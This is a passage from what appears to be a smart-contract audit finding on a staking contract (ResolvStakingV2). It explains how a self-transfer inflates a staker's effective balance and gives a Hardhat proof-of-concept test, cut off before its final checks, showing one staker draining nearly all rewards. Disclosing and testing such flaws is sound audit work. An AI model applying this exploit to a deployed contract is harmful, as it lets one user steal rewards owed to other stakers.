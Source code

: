As a result, users can inflate their effective balance by transferring tokens to themselves, which allows them to claim more rewards than they should, leading to the other users receiving fewer rewards. In practice, this allows someone to steal all the available rewards from the contract.

### Proof of concept

Add the following code to the file `ResolvStakingV2.ts` and run `yarn hardhat test`.

```ts
it.only("Transfer to oneself increases effective balance", async () => {
	const {
		resolvToken,
		resolvStaking,
		REWARD_18,
		staker,
		staker1,
		resolvInitialSupplyHolder
	} = await loadFixture(deployTokenFixture);
	await resolvStaking.setTransferEnabled(true);
	await resolvStaking.setClaimEnabled(true);

	// Two stakers deposit the same amount (100 RESOLV)
	await resolvToken.connect(staker).approve(resolvStaking, ethers.MaxUint256);
	await resolvToken.connect(staker1).approve(resolvStaking, ethers.MaxUint256);
	await resolvToken.connect(resolvInitialSupplyHolder).transfer(staker, parseRESOLV(100));
	await resolvStaking.connect(staker).deposit(parseRESOLV(100), staker);
	await resolvToken.connect(resolvInitialSupplyHolder).transfer(staker1, parseRESOLV(100));
	await resolvStaking.connect(staker1).deposit(parseRESOLV(100), staker1);

	// Distributor deposits 140 reward tokens
	await resolvStaking.addRewardToken(REWARD_18);
	await REWARD_18.approve(resolvStaking.getAddress(), ethers.MaxUint256);
	await resolvStaking.depositReward(REWARD_18, parseREWARD18(140), 0);

	// Staker transfers 100 stRESOLV to himself
	await resolvStaking.connect(staker).transfer(staker, parseRESOLV(100));

	// Staker effective balance is equal to total effective supply
	const stakerEffectiveBalance = (await resolvStaking.usersData(staker.address)).effectiveBalance;
	const totalEffectiveSupply = await resolvStaking.totalEffectiveSupply();
	expect(stakerEffectiveBalance).to.equal(totalEffectiveSupply);
	
	// Rewards are accumulated for 14 days
	await time.increase(DAYS_14);

	// Checkpoints are updated
	await resolvStaking.connect(staker).updateCheckpoint(staker);
	await resolvStaking.connect(staker1).updateCheckpoint(staker1);

	// Staker claimable rewards are approx double the amount of staker1
	const stakerClaimable = await resolvStaking.getUserClaimableAmounts(staker, REWARD_18);
	const staker1Claimable = await resolvStaking.getUserClaimableAmounts(staker1, REWARD_18);
	expect(stakerClaimable).to.closeTo(parseREWARD18(140), 10n ** 14n); // 0.0001e18 tolerance
	expect(staker1Claimable).to.closeTo(parseREWARD18(70), 10n ** 14n); // 0.0001e18 tolerance

	// Both stakers claim rewards
	await resolvStaking.connect(staker).claim(staker, staker);
	await resolvStaking.connect(staker1).claim(staker1, staker1);

	// Staker claims almost all rewards
	// Staker1 claims almost nothing, as there are not enough reward tokens left in the contract
	const stakerBalance = await REWARD_18.balanceOf(staker.address);
	const staker1Balance = await REWARD_18.balanceOf(staker1.address);
```